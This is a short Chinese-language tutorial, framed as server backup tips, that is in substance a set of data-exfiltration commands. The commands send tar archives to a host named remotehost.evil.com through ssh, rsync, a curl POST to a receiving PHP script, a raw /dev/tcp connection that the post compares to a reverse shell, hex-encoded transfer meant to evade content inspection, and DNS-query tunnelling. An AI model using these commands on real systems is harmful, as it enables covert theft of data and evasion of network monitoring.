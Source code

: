 当我们想要把一个服务器里面的数据打包备份到另一个服务器的时候，这些命令可能会有帮助。

### 1.tar over ssh

一边 tar 一边通过 ssh 传到服务器并且自动解压缩，最后会得到远程服务器上文件夹的一份完美备份，并且在目标服务器上不会写入任何文件。

```
tar zcf - /some/localfolder | ssh remotehost.evil.com "cd /some/path/name; tar zxpf -" 
```

### 2\. rsync over ssh

通过 ssh 隧道同步，要求是本地服务器要安装了 rsync

```
rsync -aH localhost remotehost.evil.com:/some/path/name 
```

假如 ssh 默认的 22 端口被封，那么你可以用 ssh -p 或者 rysnc --port 指定端口，比如可以把 ssh 服务器开到 80 或者 443 端口。

如果连 SSH 协议都被封了呢，怎么换端口都没用怎么办？别怕，我们可以把数据通过 https 发送：

```
tar zcf - localfolder | curl -F "data=@-" https://remotehost.evil.com/script.php 
```

curl -F 表示通过伪表单用 Post 方式发送数据

当然，你还要在本地建一个 script.php 用来收取数据然后写入到文件才行，并且 web 服务器要支持 ssl 并且有 https 证书。

不过 curl 在很多 linux 发行版里面都没有默认安装，所以还是有时候还是不太靠谱。

那么现在不能用 ssh 也不能用 curl，那怎么办？

### 直接通过 tcp 发送

```
tar zcf - localfolder >/dev/tcp/remotehost.evil.com/443 
```

大家看这个方式是不是有点眼熟？没错，就是和弹 shell 的方法差不多，只不过这次我们用来传送文件。

效果和用 nc 传文件是一样的。假如远程服务器和网络还有内容检测的话，我们还可以对文件进行一些编码来混淆，比如用 xxd 命令转换成 16 进制 dump

```
tar zcf - localfolder | xxd -p >/dev/tcp/remotehost.evil.com/443 
```

本地服务器可以用 xxd -r 来还原源文件

其实除了 xxd，用 base64 也不错，就是有点明显……

更奇葩的方法，用 DNS 来传送数据：

```
tar zcf - localfolder | xxd -p -c 16 |  
    while read line; do host $line.domain.com remotehost.evil.com; done 
```

把打包后的数据用 16 进制编码，每行 16 字节，这样在通过 dns 发送到时候就不会因为超长导致出错。然后我们限制每次只发送 1 个 ping 数据包，减少发送时间。至于怎么还原，那就要看你的了。
